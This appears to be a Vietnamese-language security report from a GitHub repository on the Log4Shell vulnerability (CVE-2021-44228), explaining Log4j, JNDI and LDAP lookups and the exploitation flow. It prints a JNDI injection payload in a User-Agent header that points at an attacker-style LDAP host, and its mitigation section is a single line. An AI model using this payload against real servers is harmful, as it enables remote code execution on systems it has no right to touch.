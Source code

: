 # REPORT log4j (CVE-2021-44228)
- Mức độ nghiêm trọng: đạt 10/10 *(trong hệ thống đánh giá CVSS)*
- Khai thác lỗ hổng không yêu cầu xác thực, cho phép thực thi mã từ xa (RCE) trên bất kỳ ứng dụng nào sử dụng tiện ích **log4j**
## Table of Content
1. [Log4jShell](#Log4jShell)
2. [LDAP và JNDI là gì?](#LDAP-và-JNDI-là-gì?)
3. [LDAP và JNDI](#LDAP-và-JNDI)
4. [Log4j JNDI lookup](#Log4j-JNDI-Lookup)
6. [Kịch bản khai thác Log4j](Kịch-bản-khai-thác-Log4j)
7. [Exploit]
8. [Biện pháp phòng ngừa](#Biện-pháp-phòng-ngừa)
8. Exploiting Log4j (CVE-2021-44228)
9. Mitigation

### Log4jShell
Tính năng của JNDI trong Apache Log4j2 phiên bản 2.0-beta9 đến 2.12.1 và 2.13.0 đến 2.15.0 được sử dụng cho việc cấu hình (configuration), thông báo nhật ký (log messages) *(bao gồm cả các tham số liên quan)* không chống lại các LDAP và JNDI endpoint liên quan khác mà attacker đang có quyền kiểm soát. Vì thế nên, một khi attacker có thể kiểm soát các log messages hoặc các tham số của log messages thì có thể thực thi được mã code tùy ý được load từ LDAP server khi mà message lookup substitution được kích hoạt. 
- Loại lỗ hổng: Remote Code Execution
- Mức độ: Critical
- Base CVSS Score: 10.0
- Phiên bản bị ảnh hưởng: All versions from 2.0-beta9 to 2.14.1
#### Log4j là gì?
Apache Log4j hay thường gọi là Log4j *(một thành phần của Apache Logging Services)* là một trình ghi log *(thư viện/framework)* được viết bằng ngôn ngữ Java. 

Framework Apache Log4j đang được sử dụng bởi hơn 5 TRIỆU ứng dụng mã nguồn mở trên toàn cầu, con số này còn có thể lớn hơn gấp nhiều lần đối với các ứng dụng không công bố mã nguồn. Đây là phần mềm mã nguồn mở được duy trì bởi một nhóm lập trình viên tình nguyện của dự án phi lợi nhuận từ Apache Software Foundation.
### LDAP và JNDI là gì?
**LDAP (Lightweight Directory Access Protocol)** là một giao thức mở và đa nền tảng được sử dụng để xác thực dịch vụ thư mục (directory service authentication). Nó cung cấp ngôn ngữ giao tiếp mà ứng dụng sử dụng để giao tiếp với các dịch vụ thư mục khác. Các dịch vụ thư mục lưu trữ nhiều thông tin quan trọng như user account details, passwords, computer accounts,... được chia sẻ với các thiết bị khác trên mạng.

**JNDI (Java Naming and Directory Interface)** là một giao diện lập trình ứng dụng (API) cung cấp chức năng đặt tên (naming) và thư mục (directoty) cho các ứng dụng được viết bằng Ngôn ngữ lập trình Java.

![ldap&jndi1](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/1.png)

### LDAP và JNDI
JNDI cung cấp một API tiêu chuẩn để tương tác với các dịch vụ tên và thư mục *(name/directory services)* bằng cách sử dụng giao diện cung cấp dịch vụ (service provider interface-SPI). JNDI cung cấp cho các ứng dụng và đối tượng Java với giao diện mạnh mẽ và minh bạch để truy cập các dịch vụ thư mục như LDAP. Bảng dưới đây cho thấy các hoạt động tương đương LDAP và JNDI phổ biến.

![ldap&jndi](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/2.png)

### Log4j JNDI Lookup
Lookups là một cơ chế thêm giá trị vào cấu hình log4j ở những vị trí tùy ý. Log4j có khả năng thực hiện nhiều lookups như **map, system properties và JNDI (Java Naming and Directory Interface) lookups**.

Log4j sử dụng API JNDI để nhận các dịch vụ naming và directory (naming and directory services) từ một số providers sẵn như : **LDAP, COS (Common Object Services), Java RMI registry (Remote Method Invocation), DNS (Domain Name Service),...** 

Nếu chức năng này được thực thi, thì chúng ta có thể đặt dòng mã này ở BẤT KỲ đâu đó trong chương trình: **${jndi:logging/context-name}**

### Kịch bản khai thác Log4j

#### Kịch bản Log4j bình thường

![normal Lo4j scenario](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/3.png)

1. HTTP request được gửi tới server
2. Log4j log lại HTTP request vừa được gửi

#### Kịch bản khai thác Log4j

![exploit Log4j](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/4.png)

Khi attacker kiểm soát được log messages thì có thể dẫn tới việc thực thi được mã tùy ý trên những server mục tiêu. Những mã này được load từ LDAP server mỗi khi message lookup substitution được bật. Từ đó, payload sẽ được tải và thực thi trên máy nạn nhân. 

Ví dụ về cách thức kết hợp JNDI và LDAP để khai thác: 
```console
${jndi:ldap://<host>:<port>/<payload>}
```
1. Attacker chèn JNDI lookup vào header field (vị trí có khả năng được log lại)
> User-Agent: ${jndi:ldap://anonymous.com:1389/xxx}
2. Chuỗi được chuyển tới log4j để log.
> ${jndi:ldap://ldap://anonymous.com:1389/xxx}
3. Log4j nội suy chuỗi và truy vấn máy chủ LDAP độc hại.
4. LDAP server phản hồi bằng thông tin directory có chứa Java Class độc hại.
5. Java deserialize (hoặc tải xuống) Java Class độc hại và thực thi nó.

### Exploit 
Trạng thái không sử dụng thiết bị IPS/IDS
![noIPSIDS](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/log4jlab.drawio.png)

### Biện pháp phòng ngừa

Áp dụng thiết bị IPS/IDS 
